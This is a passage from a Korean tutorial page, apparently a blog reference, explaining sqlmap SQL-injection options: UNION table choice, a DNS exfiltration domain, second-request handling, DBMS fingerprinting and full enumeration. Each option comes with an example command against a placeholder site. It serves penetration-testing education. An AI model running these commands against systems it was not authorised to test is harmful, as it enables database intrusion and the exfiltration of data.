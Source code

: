 5. **--union-from=UFROM**:
   
   **설명**: UNION 쿼리 SQL 인젝션의 FROM 부분에 사용할 테이블을 지정합니다.
   {: .notice--danger}
   **사용법**: UNION 인젝션에서 사용할 테이블을 지정합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --union-from="users"`
   {: .notice--danger}

6. **--dns-domain=DNSDOMAIN**:
   
   **설명**: DNS exfiltration 공격에 사용할 도메인 이름을 지정합니다.
   {: .notice--danger}
   **사용법**: DNS 기반 데이터 exfiltration 공격에 사용할 도메인을 설정합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --dns-domain="example.com"`
   {: .notice--danger}

7. **--second-url=SECONDURL**:
   
   **설명**: 두 번째 URL을 사용하여 응답 페이지를 검색합니다.
   {: .notice--danger}
   **사용법**: 두 번째 URL을 사용하여 SQL 인젝션을 테스트할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --second-url="http://www.secondsite.com"`
   {: .notice--danger}

8. **--second-req=SECONDREQ**:
   
   **설명**: 파일에서 두 번째 HTTP 요청을 로드합니다.
   {: .notice--danger}
   **사용법**: 파일에 저장된 HTTP 요청을 사용하여 두 번째 응답을 테스트합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --second-req="request.txt"`
   {: .notice--danger}

## Fingerprint 옵션

1. **-f, --fingerprint**:
   
   **설명**: DBMS 버전에 대한 광범위한 지문 인식을 수행합니다.
   {: .notice--danger}
   **사용법**: DBMS의 정확한 버전을 식별하고자 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --fingerprint`
   {: .notice--danger}

## Enumeration 옵션

1. **-a, --all**:
   
   **설명**: 모든 정보를 가져옵니다.
   {: .notice--danger}
   **사용법**: DBMS의 모든 정보를 한 번에 가져올 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" -a`
   {: .notice--danger}
